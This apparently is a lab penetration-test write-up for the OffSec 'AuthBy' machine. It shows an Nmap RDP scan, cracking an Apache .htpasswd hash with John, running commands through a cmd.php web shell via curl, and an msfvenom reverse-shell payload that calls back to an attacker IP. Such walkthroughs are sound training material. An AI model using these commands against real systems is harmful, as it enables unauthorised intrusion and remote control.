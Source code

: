 ### RDP
```bash
# Nmap 7.91 scan initiated Tue Jul 13 08:22:17 2021 as: nmap -p3389 --script rdp-ntlm-info -oN scans/authby-nmap-scripts-rdp-ntlm-info 192.168.51.46
Nmap scan report for 192.168.51.46
Host is up (0.084s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

# Nmap done at Tue Jul 13 08:22:19 2021 -- 1 IP address (1 host up) scanned in 2.75 seconds
```

```bash
rdesktop -u administrator $TARGET

# output
Microsoft Windows Server 2008 Standard
```

## Gaining Access
The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems. During this penetration test, Victor was able to successfully gain access to 10 out of the 50 systems.

### Password Guessing  
```bash
cp .htpasswd hash.txt
hashid hash.txt

--File 'hash.txt'--
Analyzing '$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0'
[+] MD5(APR) 
[+] Apache MD5 
--End of file 'hash.txt'--
```

Victor was able to guess the plain-text version of the hash above using John. The password works on TCP port 242, but not TCP port 21 (FTP) or 3389 (RDP).
```bash
john hash.txt /usr/share/wordlists/rockyou.txt

# output
elite
```

Login as offsec to leverage an LFI as apache.
```bash
curl -u offsec:elite "http://192.168.51.46:242/cmd.php?cmd=type+c:\users\apache\Desktop\local.txt"
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.51 LPORT=242 -f exe -o rshell.exe 
```
